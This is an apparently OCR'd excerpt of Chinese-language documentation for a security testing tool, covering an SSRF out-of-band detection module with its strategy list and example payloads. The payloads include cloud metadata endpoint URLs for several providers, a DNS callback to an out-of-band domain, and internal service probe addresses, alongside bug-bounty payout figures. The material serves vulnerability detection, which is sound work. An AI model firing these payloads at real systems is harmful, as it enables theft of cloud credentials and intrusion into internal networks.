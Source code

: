 ### 5. 🌐 SSRF OOB - SSRF 帶外檢測

**位置**: `services/features/ssrf_oob/`  
**語言**: Python  
**核心文件**: `worker.py`

#### 攻擊原理
SSRF Out-of-Band 檢測使用外部監聽服務檢測服務端請求偽造，特別針對雲端環境中的中繼資料服務。

#### 檢測技術
```python
# OOB 檢測策略
oob_strategies = {
    "dns_exfiltration": "DNS 解析監聽檢測",
    "http_callback": "HTTP 回調監聽",
    "cloud_metadata": "雲端中繼資料存取",
    "internal_service": "內部服務探測",
    "time_based_blind": "時間盲測檢測"
}
```

#### 典型攻擊 Payload
```python
# 雲端中繼資料攻擊
cloud_payloads = [
    "http://169.254.169.254/latest/meta-data/",           # AWS
    "http://metadata.google.internal/computeMetadata/",   # GCP  
    "http://169.254.169.254/metadata/instance",           # Azure
    "http://100.100.100.200/latest/meta-data/"            # Alibaba Cloud
]

# DNS 外洩檢測
dns_payload = f"http://{unique_id}.{oob_domain}/ssrf-test"

# 內部服務探測
internal_services = [
    "http://localhost:6379/",      # Redis
    "http://127.0.0.1:9200/",      # Elasticsearch  
    "http://internal-api:8080/",   # 內部 API
    "http://admin-panel:3000/"     # 管理面板
]
```

#### 商業價值
- **平均賞金**: $2,200-$8,700
- **常見場景**: 檔案上傳、URL 縮短、網頁截圖、Webhook
- **影響程度**: 內網滲透、雲端資源存取、敏感資料洩露

---

## 🚀 使用指南
